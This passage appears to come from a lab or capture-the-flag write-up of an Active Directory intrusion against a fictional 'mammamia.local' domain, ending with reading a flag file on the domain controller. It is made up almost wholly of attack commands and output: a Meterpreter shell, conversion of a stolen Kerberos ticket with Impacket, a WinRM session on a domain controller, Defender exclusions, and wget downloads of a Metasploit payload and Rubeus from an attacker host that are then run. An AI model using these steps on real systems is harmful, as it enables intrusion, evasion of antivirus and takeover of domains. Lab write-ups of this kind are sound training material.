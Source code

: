 ```powershell
 4748  3636  powershell.exe              x64   2        FACTORIES\silvia.galli             C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe # process is still alive and running
 [...]

meterpreter > shell
Process 4908 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2402]
(c) Microsoft Corporation. All rights reserved.

C:\Users\silvia.galli.FACTORIES>whoami
factories\silvia.galli
C:\Users\silvia.galli.FACTORIES>powershell -c Set-MpPreference -DisableRealtimeMonitoring $false
meterpreter > ps

Process List
============

 PID   PPID  Name                        Arch  Session  User                               Path
 ---   ----  ----                        ----  -------  ----                               ----
 0     0     [System Process]
 4     0     System                      x64   0
 4748  3636  powershell.exe              x64   2        FACTORIES\silvia.galli             C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe # process is still alive and running
 [...]
```

We can now use the new ticket to get a WinRM session on the `FACTRODC` computer:

```bash
user@zero:~/MammaMia$ echo doIGoDCCBpygAwI[...] | base64 -d > ticket.kirbi
user@zero:~/MammaMia$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
user@zero:~/MammaMia$ export KRB5CCNAME=ticket.ccache 
user@zero:~/MammaMia$ proxychains -q pwsh
PowerShell 7.4.1

PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true                            
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName factrodc.factories.mammamia.local 
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
factories\silvia.galli
```

> Note: In my case, I had to disable "proxy_dns" in my `proxychains.conf` file to get the WinRM session to work, as PowerShell was looking for a ticket with the hostname `224.0.0.0`. Remember to modify your `/etc/hosts` file to point the hostname to the correct IP address.


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      